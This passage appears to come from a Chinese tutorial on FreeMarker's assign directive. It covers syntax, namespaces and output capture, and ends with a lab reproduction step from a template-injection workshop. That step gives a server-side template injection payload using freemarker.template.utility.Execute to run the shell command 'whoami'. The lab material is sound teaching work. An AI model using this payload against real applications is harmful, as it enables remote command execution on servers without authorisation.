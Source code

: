 ```HTML
<#assign name1=value1 name2=value2 ... nameN=valueN>

<#assign same as above... in namespacehash>

<#assign name>
capture this
</#assign>

<#assign name in namespacehash>
capture this
</#assign>
```

三、FreeMarker assign 多变量定义

比如：变量 seq 存储一个序列：


<#assign seq = ["foo", "bar", "baz"]>

比如：变量 x 中存储增长的数字：


<#assign x++>

作为一个方便的特性，可以使用一个 assign 标记来进行多次定义，如下所示：


<#assign
seq = ["foo", "bar", "baz"]
x++
四、FreeMarker assign 变量+命名空间

assign 指令在命名空间中创建变量。通常它在当前的命名空间 (也就是和标签所在模板关联的命名空间)中创建变量。但如果你是用了 in namespacehash， 那么你可以用另外一个命名空间来创建/替换变量。比如，这里你在命名空间中 /mylib.ftl 创建/替换了变量 bgColor：


<#import "/mylib.ftl" as my>
<#assign bgColor="red" in my>

五、FreeMarker assign 复杂变量

assign 的极端使用是捕捉它的开始标记和结束标记中间生成的输出时。 也就是说，在标记之间打印的东西将不会在页面上显示， 但是会存储在变量中。比如：
```HTML
<#macro myMacro>foo</#macro>
<#assign x>
  <#list 1..3 as n>
    ${n} <@myMacro />
  </#list>
</#assign>

Number of words: ${x?word_list?size}
${x}

将会输出：

Number of words: 6
1 foo
2 foo
3 foo

```
### 3.3.4 漏洞复现
[项目源码地址](https://github.com/GoSecure/template-injection-workshop)，在对应的项目中登录后，在模板处输入：<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("whoami") }
